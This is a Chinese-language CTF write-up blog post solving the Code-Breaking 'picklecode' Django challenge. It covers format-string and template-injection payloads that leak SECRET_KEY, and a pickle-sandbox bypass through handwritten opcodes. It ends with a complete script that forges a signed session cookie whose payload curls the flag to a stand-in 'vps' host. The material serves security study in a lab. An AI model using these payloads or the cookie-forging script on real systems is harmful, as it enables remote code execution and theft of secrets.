









复现
可以通过docker-compose up -d命令开启靶机

做题操作
源码分析
来自大佬的经验：
对于一个Django项目，首先查看该项目的配置文件，即是core/settings.py
和默认配置文件相比
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies', 默认配置文件中为SESSION_ENGINE = 'django.contrib.sessions.backends.db'SESSION_SERIALIZER = 'core.serializer.PickleSerializer', 默认配置文件中为SESSION_SERIALIZER = 'django.contrib.sessions.serializers.JSONSerializer'
第一个值的意思是：Django将用户认证信息存储在哪里
第二个值的意思是：Django用什么样的方式存储用户认证信息
默认的配置文件session使用json的形式存储在数据库中的
这里session是使用pickle的形式存储在Cookie中的，我们如果可以控制这个pickle就可以达到命令执行的目的，但是这里是签名后放入Cookie中的，我们需要知道签名时使用的密钥
格式化漏洞
参考P神博客
python格式化字符串举例
"{username}".format(username='RoboTerh')
"{username!r}".format(username='RoboTerh') ==> 相当于repr(username)
"{username!s}".format(username='RoboTerh') ==> 相当于str(username)
"{username!a}".format(username='RoboTerh') ==> 相当于ascii(username)
"{number:0.2f}".format(number=0.2343) ==> 保留两位小数
"int: {0:d}; hex: {0:#x}; oct: {0:#o}; bin: {0:#b}".format(45) ==> 进制转换
"{user.username}".format(user=request.usernaem) ==> 获取对象值
"{arr[3]}".format(arr=[1,2,3,4,5,6,7]) ==> 获取数组键值其中的repr用法
class Blog(object):
def __init__(self):
self.name = "RoboTerh"
self.url = "RoboTerh.github.io"
def __repr__(self):
return "Blog is " + self.name + "'s blog, it is in " + self.url
obj = Blog()
print(obj)
print(obj.__repr__())
print(repr(obj))
print("{obj!r}".format(obj=obj))
# Blog is RoboTerh's blog, it is in RoboTerh.github.io
# Blog is RoboTerh's blog, it is in RoboTerh.github.io
# Blog is RoboTerh's blog, it is in RoboTerh.github.io
# Blog is RoboTerh's blog, it is in RoboTerh.github.io简单Demo
如果有一个这样的视图函数
def view(request, *args, **kwargs):
template = "Hello {user}, This is your email: " + request.GET.get('email')
return HttpResponse(template.format(user=request.user))因为这里email的值直接拼接进入template中， 如果我们传入email是{user.password}可能就会造成信息泄露
如果只能获取到request.user变量
Django自带的应用”admin”中的
models.py导入了当前网站的配置文件
payload:
?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}f引发的代码执行
测试:
有一个xss漏洞
</body><script>alert("xss")</script><body>

使用{{user.password}}注册一个用户，会得到一串加密的密码

SSTI
其中在view.py中有一个SSTI漏洞
@login_required
def index(request):
django_engine = engines['django']
template = django_engine.from_string('My name is ' + request.user.username)
return HttpResponse(template.render(None, request))其中的SECRET_KEY在settings.py中

无法利用这个模板注入进行任意命令执行，但是可以得到SECRET_KEY
Django自带的变量在配置中的templates项

其中settings是不存在的，无法直接获得配置信息
前面提到格式漏洞payload，Django的模板引擎有一定限制，比如我们无法读取用下划线开头的属性，所以使用不到
但是通过debug可以发现通过
{{request.user.groups.source_field.opts.app_config.module.admin.settings.SECRET_KEY}}获得签名的密钥

pickle反序列化
我们知道他是通过pickle进行序列化存储的session: SESSION_SERIALIZER = 'core.serializer.PickleSerializer'
查看对应的PickleSerializer类

这里使用了RestrictedUnpickler类作为序列化的过程类
官方文档中使用的是白名单，这里是黑名单：

题目要求只能使用builtins模块，并且其下面的{'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}
绕过沙箱
在禁用的函数中还有getattr这个函数没有被禁用
正好serializer.py中引入了import builtins
- 使用
builtins.getattr('builtins', 'eval')获取eval函数 builtins在pickle中不能直接获取(不然不能使用命令执行函数), 使用get(builtins.globals(), "builtins")获得- 其中
get通过getattr(builtins.dict, "get")获得 - 其中的
getattr通过builtins.getattr获得
就可以手工构造opcode了
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
cbuiltins
getattr
(g1
S'eval'
tR(S'__import__("os").system("id")'
tR.pker构造opcode:
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')
eval=getattr(builtins,'eval')
eval('print("123")')
return
他的使用pickle反序列化初探 - 先知社区 (aliyun.com)
构造session的脚本：
from django.core import signing
import pickle
import builtins,io
import base64
import datetime
import json
import re
import time
import zlib
data = b'''cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
cbuiltins
getattr
(g1
S'eval'
tR(S'__import__("os").system("curl vps/?$(cat /flag_djang0_p1ckle | base64)")'
tR
.'''
def b64_encode(s):
return base64.urlsafe_b64encode(s).strip(b'=')
def pickle_exp(SECRET_KEY):
global data
is_compressed = False
compress = False
if compress:
# Avoid zlib dependency unless compress is being used
compressed = zlib.compress(data)
if len(compressed) < (len(data) - 1):
data = compressed
is_compressed = True
base64d = b64_encode(data).decode()
if is_compressed:
base64d = '.' + base64d
SECRET_KEY = SECRET_KEY
# 根据SECRET_KEY进行Cookie的制造
session = signing.TimestampSigner(key = SECRET_KEY,salt='django.contrib.sessions.backends.signed_cookies').sign(base64d)
print(session)
if __name__ == '__main__':
SECRET_KEY = 'zs%o-mvuihtk6g4pgd+xpa&1hh9%&ulnf!@9qx8_y5kk+7^cvm'
pickle_exp(SECRET_KEY)参考
Code-Breaking中的两个Python沙箱 | 离别歌 (leavesongs.com)
Code Breaking picklecode复现 - 先知社区 (aliyun.com)
phith0n/code-breaking: Code-Breaking Puzzles (github.com)
Python 格式化字符串漏洞（Django为例） | 离别歌 (leavesongs.com)
code-breaking picklecode中对signed_cookies引擎分析 - 先知社区 (aliyun.com)


- Post link: https://roboterh.github.io/2022/01/19/Code-Breaking-picklecode/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.